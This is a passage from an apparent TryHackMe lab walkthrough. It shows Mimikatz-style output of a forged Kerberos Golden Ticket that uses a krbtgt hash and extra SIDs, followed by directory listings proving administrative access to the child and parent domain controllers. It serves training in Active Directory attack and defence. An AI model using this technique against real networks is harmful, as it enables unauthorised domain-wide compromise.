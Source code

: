 ~~~bash
User Id   : 500
Groups Id : *513 512 520 518 519
Extra SIDs: S-1-5-21-3330634377-1326264276-632209373-519 ;
ServiceKey: 16f9af38fca3ada405386b3b57366082 - rc4_hmac_nt
Service   : krbtgt
Lifetime  : 4/30/2022 7:52:51 PM ; 4/27/2032 7:52:51 PM ; 4/27/2032 7:52:51 PM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ za.tryhackme.loc' successfully submitted for current session
~~~
First, we will verify that this ticket works for access to THMDC since it is a valid ticket for the Administrator user of the child domain:
~~~bash
C:\>dir \\thmdc.za.tryhackme.loc\c$
 Volume in drive \\thmdc.za.tryhackme.loc\c$ is Windows
 Volume Serial Number is 1634-22A9

 Directory of \\thmdc.za.tryhackme.loc\c$

01/04/2022  08:47 AM               103 delete-vagrant-user.ps1
04/30/2022  10:24 AM               154 dns_entries.csv
09/15/2018  08:19 AM    <DIR>          PerfLogs
03/21/2020  09:31 PM    <DIR>          Program Files
03/21/2020  09:28 PM    <DIR>          Program Files (x86)
04/27/2022  08:27 AM             1,423 thm-network-setup-dc.ps1
04/25/2022  07:13 PM    <DIR>          tmp
04/27/2022  08:22 AM    <DIR>          Users
04/25/2022  07:11 PM    <SYMLINKD>     vagrant [\\vboxsvr\vagrant]
04/27/2022  08:12 PM    <DIR>          Windows
               7 File(s)      2,356,811 bytes
               7 Dir(s)  50,913,189,888 bytes free;
~~~

This at least confirms that the Golden Ticket was forged for access to the child DC. However, since we specified extra SIDs, we should also now have access to the parent DC:
~~~bash
C:\>dir \\thmrootdc.tryhackme.loc\c$\
 Volume in drive \\thmrootdc.tryhackme.loc\c$ is Windows
 Volume Serial Number is 1634-22A9

 Directory of \\thmrootdc.tryhackme.loc\c$

01/04/2022  08:47 AM               103 delete-vagrant-user.ps1
09/15/2018  08:19 AM    <DIR>          PerfLogs
03/21/2020  09:31 PM    <DIR>          Program Files
03/21/2020  09:25 PM    <DIR>          Program Files (x86)
04/23/2022  09:21 AM                58 root_dns_entries.csv
04/23/2022  09:22 AM             1,432 thm-network-setup-dc.ps1
04/25/2022  05:50 PM    <DIR>          tmp
04/27/2022  07:54 AM    <DIR>          Users
04/25/2022  05:50 PM    <SYMLINKD>     vagrant [\\vboxsvr\vagrant]
04/27/2022  06:29 PM    <DIR>          Windows
               3 File(s)          1,593 bytes
               7 Dir(s)  51,105,730,560 bytes free
~~~
